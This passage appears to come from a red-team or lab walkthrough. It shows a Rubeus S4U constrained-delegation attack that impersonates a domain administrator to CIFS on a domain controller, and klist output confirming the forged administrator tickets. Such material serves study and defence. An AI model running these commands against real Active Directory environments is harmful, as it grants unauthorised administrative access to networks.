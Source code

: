 ```plain
[+] Ticket successfully imported!
```

#### CIFS

```plain
PS Z:\> .\Rubeus.exe s4u /ticket:doIFfjCCBXqgAwIBBaEDAgEWooIElTCCBJF[...]mJ0Z3QbC3Byb2QuYmFtLm5s /impersonateuser:administrator /msdsspn:CIFS/dc03.offsec.nl /dc:10.10.20.53 /ptt

[*] Action: S4U

[*] Using domain controller: 10.10.20.53
[*] Building S4U2self request for: 'JDIWKAKA$@OFFSEC.NL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'JDIWKAKA$@OFFSEC.NL'
[*] base64(ticket.kirbi):

      doIGxjCCBsKgAwIBB[...]1ZKWVJUJA==

[*] Impersonating user 'administrator' to target SPN 'CIFS/dc03.offsec.nl'
[*] Using domain controller: 10.10.20.53
[*] Building S4U2proxy request for service: 'CIFS/dc03.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/dc03.offsec.nl':

      doIFfjCCBXqgAwIBBaEDAgEWooIElTCCBJF[...]mJ0Z3QbC3Byb2QuYmFtLm5s
      
[+] Ticket successfully imported!
```

#### Check Kerberos Tray

```plain
PS Z:\> klist

Current LogonId is 0:0x51ac9

Cached Tickets: (2)

#0>     Client: administrator @ OFFSEC.NL
        Server: LDAP/dc03.offsec.nl @ OFFSEC.NL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 5/2/2023 6:30:26 (local)
        End Time:   5/2/2023 16:12:45 (local)
        Renew Time: 5/9/2023 6:12:45 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

#1>     Client: administrator @ OFFSEC.NL
        Server: CIFS/dc03.offsec.nl @ OFFSEC.NL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 5/2/2023 6:27:25 (local)
        End Time:   5/2/2023 16:12:45 (local)
        Renew Time: 5/9/2023 6:12:45 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```